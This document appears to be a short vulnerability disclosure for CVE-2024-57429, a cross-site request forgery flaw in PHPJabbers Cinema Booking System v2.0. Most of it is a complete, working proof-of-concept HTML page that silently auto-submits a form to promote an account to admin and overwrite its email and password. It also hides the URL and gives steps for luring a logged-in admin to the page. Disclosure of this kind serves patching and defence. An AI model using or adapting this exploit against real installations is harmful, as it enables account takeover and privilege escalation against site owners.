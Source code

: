 # CVE-2024-57429
A cross-site request forgery (CSRF) vulnerability in the pjActionUpdate function of PHPJabbers Cinema Booking System v2.0 allows remote attackers to escalate privileges by tricking an authenticated admin into submitting an unauthorized request.

## Impact:
Exploitation of this CSRF vulnerability can lead to unauthorized actions, such as:
- Changing the admin's password, effectively locking them out.
- Elevating the attacker's privileges to admin by updating their user role.

## Exploit - Proof of Concept (POC)
### Cross-Site Request Forgery (CSRF)

### poc.html

```
<html>
 <!-- CSRF PoC - Update Admin User -->
 <body>
   <form action="http://127.0.0.1/CinemaBookingDev/index.php?controller=pjAdminUsers&action=pjActionUpdate" method="POST">
     <input type="hidden" name="user_update" value="1" />
     <input type="hidden" name="id" value="3" />
     <input type="hidden" name="role_id" value="1" />
     <input type="hidden" name="email" value="attacker@example.com" />
     <input type="hidden" name="password" value="newpassword123" />
     <input type="hidden" name="name" value="Attacker" />
     <input type="hidden" name="phone" value="1234567890" />
     <input type="hidden" name="status" value="T" />
     <input type="submit" value="Submit request" />
   </form>
   <script>
     history.pushState('', '', '/');
     document.forms[0].submit();
   </script>
 </body>
</html>
```

1. Save the above code as poc.html
2. Host the file on a server and trick the admin into accessing it while logged into the application.
3. The admin's account will be updated with the attacker's details and new password.
